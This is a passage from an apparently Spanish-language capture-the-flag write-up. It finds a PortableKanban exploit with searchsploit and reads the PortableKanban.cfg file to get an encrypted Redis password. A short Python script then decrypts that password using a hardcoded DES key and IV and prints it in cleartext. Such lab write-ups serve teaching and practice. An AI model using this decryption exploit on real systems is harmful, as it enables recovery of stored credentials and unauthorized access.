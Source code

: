 Si tratamos de buscar vulnerabilidades asociadas a `PortableKanban`, vemos un exploit con el podemos desencriptar una contraseña.

```bash
❯ searchsploit portablekanban
------------------------------------------------------- ---------------------------------
 Exploit Title                                         |  Path
------------------------------------------------------- ---------------------------------
PortableKanban 4.3.6578.38136 - Encrypted Password Ret | windows/local/49409.py
------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Vimos anteriormente cuando listamos los archivos de `portablekanban` un archivo de configuración `PortableKanban.cfg` que si lo leemos encontramos una contraseña encryptada.

```cmd
type PortableKanban.cfg
{"RoamingSettings":{"DataSource":"RedisServer","DbServer":"localhost","DbPort":6379,"DbEncPassword":"Odh7N3L9aVSeHQmgK/nj7RQL8MEYCUMb","DbServer2":"","DbPort2":6379,"DbEncPassword2":"","DbIndex":0,"DbSsl":false,"DbTimeout":10,"FlushChanges":true,"UpdateInterval":5,"AutoUpdate":true,"Caption":"My Tasks","RightClickAction":"Nothing","DateTimeFormat":"ddd, M/d/yyyy h:mm tt","BoardForeColor":"WhiteSmoke","BoardBackColor":"DimGray","ViewTabsFont":"Segoe UI, 9pt","SelectedViewTabForeColor":"WhiteSmoke","SelectedViewTabBackColor":"Black","HeaderFont":"Segoe UI, 11.4pt","HeaderShowCount":true,"HeaderShowLimit":true,"HeaderShowEstimates":true,"HeaderShowPoints":false,"HeaderForeColor":"WhiteSmoke","HeaderBackColor":"Gray","CardFont":"Segoe UI, 11.4pt","CardLines":3,"CardTextAlignment":"Center","CardShowMarks":true,"CardShowInitials":false,"CardShowTags":true,"ThickTags":false,"DefaultTaskForeColor":"WhiteSmoke","DefaultTaskBackColor":"Gray","SelectedTaskForeColor":
```

> Recordemos que los archivos de configuración muchas veces contienen contraseñas ya sean encriptadas o en texto claro.


Como ya contamos con una contraseña, ahora vamos a modificar un poco el exploit de tal manera que nos muestre la contraseña en texto claro.


```python
import json
import base64
from des import * #python3 -m pip install des
import sys

hash = 'Odh7N3L9aVSeHQmgK/nj7RQL8MEYCUMb'

hash = base64.b64decode(hash.encode('utf-8'))
key = DesKey(b"7ly6UznJ")
print(key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))
```

Ejecutamos el exploit y obtenemos la contraseña en texto claro.

```bash
❯ python3 portable.py
kidvscat_yes_kidvscat
```

